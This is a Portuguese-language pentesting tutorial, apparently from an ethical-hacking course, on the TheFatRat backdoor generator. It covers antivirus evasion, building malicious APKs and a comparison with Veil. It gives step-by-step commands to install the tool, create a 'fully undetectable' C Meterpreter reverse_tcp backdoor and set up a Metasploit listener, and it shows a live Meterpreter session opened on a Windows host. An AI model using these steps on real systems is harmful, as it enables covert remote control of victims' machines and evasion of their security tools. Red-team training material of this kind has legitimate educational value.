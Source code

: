 # [The Fat Rat](https://github.com/screetsec/TheFatRat)

O **TheFatRat** é uma ferramenta de **post-exploitation** usada em **pentesting** e **Red Team** para gerar *backdoors* e *payloads* customizados que conseguem **bypassar antivírus e soluções de segurança**.

Ele é parecido em propósito com o **Veil**, mas tem um enfoque mais “all-in-one” para gerar executáveis maliciosos a partir de payloads do **Metasploit** ou de código próprio.

**O que faz**
* **Gera backdoors em diferentes linguagens** (C, C++, Python, Java, etc.).
* **Converte payloads do Metasploit** em binários ofuscados para Windows, Linux ou Android.
* **Bypass AV/EDR**: aplica técnicas de ofuscação para reduzir detecção.
* **Integração com msfvenom**: automatiza a criação de *reverse shells* e *meterpreters*.
* **Compila e empacota executáveis** usando ferramentas como MinGW, GCC e Wine.
* **Criação de APKs maliciosos** para Android (injetando payloads em apps legítimos).
* **Gerador de trojans FUD (Fully Undetectable)**, segundo os desenvolvedores, para fins de teste.

## Comparação com o Veil

| Recurso                       | **Veil** 🟢                              | **TheFatRat** 🔴                             |
| ----------------------------- | ---------------------------------------- | -------------------------------------------- |
| **Payloads Windows**          | ✅ (PyInstaller, AutoIt)                  | ✅ (C, C++, msfvenom)                         |
| **Payloads Linux**            | ❌                                        | ✅ (ELF com GCC)                              |
| **Payloads Android (APK)**    | ❌                                        | ✅ (injeta payload em apps legítimos)         |
| **Integração com Metasploit** | ✅ (gera payloads compatíveis)            | ✅ (usa msfvenom por baixo dos panos)         |
| **Bypass AV/EDR**             | ✅ (muito bom em evasão, foco do projeto) | ✅ (mas mais fácil de ser detectado em 2025)  |
| **Ofuscação avançada**        | ✅ (criptografia, empacotamento)          | Parcial (foco mais na variedade de payloads) |
| **Automação (menús/scripts)** | Médio (menu simples)                     | Alto (framework “all-in-one”)                |
| **Customização de código**    | ✅ (suporte a scripts customizados)       | ✅ (pode editar payloads gerados)             |
| **Manutenção do projeto**     | ✅ (ativo, usado em Red Teams)            | ⚠️ menos ativo, detectado por AV modernos    |

**Quando escolher Veil:**
* Precisa de payloads Windows furtivos para testes contra EDR/antivírus.
* Quer trabalhar com Red Team moderno, com foco em evasão.
* Cenários de pesquisa em evasão de AV.

**Quando escolher TheFatRat:**
* Precisa gerar payloads variados (Windows, Linux, Android) de forma rápida.
* Quer testar múltiplas plataformas em laboratório.
* Está começando em pentest e quer uma ferramenta “all-in-one” para entender o processo.

## Instalação

Rodar os somandos abaixo com privilégio root.
```
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh
```
## Criação do payload

No diterório criado pelo git, exexute o comando abaixo com privilégio root:

`./fatrat`

![Tela Fat Rat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/9834c9bac3637661c199b2ad9406d30fda510b44/5%20-%20Virus%20-%20Trojans%20-%20etc/rat_01.png)

Nesse exemplo, escolhemos a opção 6: create FUD backdoor 1000% with PwnWinds

O tipo de injection:

![Tela Fat Rat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/336a94b50b09e7ccc1ed8568c609a37c4860db94/5%20-%20Virus%20-%20Trojans%20-%20etc/rat_02.png)

Escolhida a opção 6: Create backdoor with C / Meterpreter_reverse_tcp (FUD 97%)

Por fim, informações os dadoa solicitados:

![Tela fat Rat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/336a94b50b09e7ccc1ed8568c609a37c4860db94/5%20-%20Virus%20-%20Trojans%20-%20etc/rat_03.png)

O The Fat Rat gererá o arquivo com o payload do diterório indicado:

![Tela Fat Rat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/336a94b50b09e7ccc1ed8568c609a37c4860db94/5%20-%20Virus%20-%20Trojans%20-%20etc/rat_04.png)

## Escuta da rede

Após a entrega do payload e antes de sua execução, temos que escutar a rede. Fazemos isso através do msfconsole.
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```
```
msf6 exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
```
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
## Resultado
```
sf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Sending stage (203846 bytes) to 192.168.1.38
[*] Meterpreter session 6 opened (192.168.1.10:4444 -> 192.168.1.38:50174) at 2025-09-02 21:53:28 -0300

meterpreter > getuid
Server username: WIN10\user
meterpreter > 
```








